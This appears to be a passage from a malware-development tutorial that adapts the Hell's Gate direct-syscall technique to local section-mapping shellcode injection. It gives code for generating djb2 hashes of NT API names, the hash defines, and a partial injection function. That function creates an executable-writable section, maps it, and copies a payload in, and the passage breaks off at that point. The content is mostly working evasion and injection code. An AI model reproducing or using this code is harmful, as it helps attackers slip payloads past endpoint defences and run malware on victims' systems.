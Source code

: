The following `printf` statements should be added to a new project to generate the djb2 hash values.

```c
printf("#define %s%s 0x%p \n", "NtCreateSection", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtMapViewOfSection", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtUnmapViewOfSection", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtClose", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));
```

Once the values are generated, add them to the start of the Hell's Gate project.

```c
#define NtCreateSection_djb2         0x5687F81AC5D1497A
#define NtMapViewOfSection_djb2      0x0778E82F702E79D4
#define NtUnmapViewOfSection_djb2    0x0BF2A46A27B93797
#define NtClose_djb2                 0x0DA4FA80EF5031E7
#define NtCreateThreadEx_djb2        0x2786FB7E75145F1A
```

#### Updating The Main Function

The main function must be updated to use either the `LocalMappingInjectionViaSyscalls` or `RemoteMappingInjectionViaSyscalls` functions instead of the [payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L80). The function will use the above-generated hashes as shown below.

#### LocalMappingInjectionViaSyscalls

```c
BOOL LocalMappingInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection		= NULL;
	HANDLE				hThread			= NULL;
	PVOID				pAddress		= NULL;
	NTSTATUS			STATUS			= NULL;
	SIZE_T				sViewSize		= NULL;
	LARGE_INTEGER		MaximumSize 	= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------	
	// Allocating local map view 
	HellsGate(pVxTable->NtCreateSection.wSystemCall);
	if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %ld \n", pAddress, sViewSize);

//--------------------------------------------------------------------------	
	// Writing the payload

	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pAddress, pPayload, sPayloadSize);
```